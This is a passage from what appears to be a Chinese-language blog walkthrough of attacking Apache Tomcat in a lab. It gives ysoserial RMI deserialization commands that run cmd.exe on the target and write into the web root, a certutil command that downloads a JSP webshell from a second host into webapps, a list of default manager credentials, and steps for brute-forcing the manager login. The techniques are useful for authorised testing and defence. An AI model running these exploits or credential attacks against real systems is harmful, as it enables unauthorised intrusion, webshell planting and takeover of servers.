 执行命令，写到网站目录
```
java -cp ysoserial.jar  ysoserial.exploit.RMIRegistryExploit 192.168.64.129 10001 Groovy1 "cmd.exe /c whoami  > ..\webapps\ROOT\a.txt"
```
![](https://img2020.cnblogs.com/blog/1954962/202011/1954962-20201110140421076-1914230851.png)
访问
![](https://img2020.cnblogs.com/blog/1954962/202011/1954962-20201110140437319-1239873008.png)
利用 certutil 下载文件，可以getshell或直接上传exe再执行

```
java -cp ysoserial.jar  ysoserial.exploit.RMIRegistryExploit 192.168.64.129 10001 Groovy1 "certutil.exe -urlcache -split -f http://192.168.64.130:8000/a.jsp ..\webapps\ROOT\a.jsp"
```
![](https://img2020.cnblogs.com/blog/1954962/202011/1954962-20201110140452484-1067659531.png)



## 管理后台getshell

---

### 弱口令

```
tomcat:tomcat
tomcat:admin
tomcat:123456
admin:admin
admin:123456
```
> 弱口令看运气
> tomcat 6 之后的版本有`防暴机制`

### 低版本暴力破解

> 这里使用了 tomcat 7.x ，配置过了才可以暴力破解，因为懒得再安装低版本

简单的配置
![](https://img2020.cnblogs.com/blog/1954962/202011/1954962-20201110140527851-1616783615.png)

或者这样（字典，base64编码，关闭URL编码）

![](https://img2020.cnblogs.com/blog/1954962/202011/1954962-20201110140538961-1021335630.png)

得到账号密码

![](https://img2020.cnblogs.com/blog/1954962/202011/1954962-20201110140554321-1417530477.png)

输入账号和密码登录

![](https://img2020.cnblogs.com/blog/1954962/202011/1954962-20201110140607382-1079312498.png)
